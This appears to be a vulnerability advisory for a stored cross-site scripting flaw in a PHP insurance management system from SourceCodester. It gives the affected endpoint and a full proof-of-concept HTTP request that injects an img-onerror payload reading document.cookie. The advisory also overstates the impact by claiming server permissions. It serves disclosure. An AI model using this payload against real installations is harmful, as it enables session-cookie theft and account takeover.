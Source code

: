 ## Affected version: 
Insurance Management System - 1.0

## Vendor:
https://www.sourcecodester.com/users/munyweki

## Software:
https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html

## Vulnerability File:
/e-insurance/Script/admin/core/update_sub_category

## Description:
There is a stored XSS vulnerability in the name parameter of the added ticket class in the insurance management system. An attacker can use this vulnerability to gain server permissions.

Status: CRITICAL

POC
```
POST /e-insurance/Script/admin/core/update_sub_category HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 94
Origin: http://localhost
Connection: close
Referer: http://localhost/e-insurance/Script/admin/?page=sub-categories
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd; __insuarance__logged=1; __insuarance__key=SK9MGL4R5CQPM34FZSH3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

category=7&name=%3Cimg+Src%3D1+Onerror%3Dalert%28document.cookie%29%3E&status=1&id=13&submit=1
```

Get user cookie


<img width="1520" alt="image" src="https://github.com/user-attachments/assets/d2a3cd4c-b6d4-4f52-afa5-4d3c76ddf8fd">

<img width="1589" alt="image" src="https://github.com/user-attachments/assets/8d54a3f5-856e-4ce3-afa5-d30bd13cce50">







 
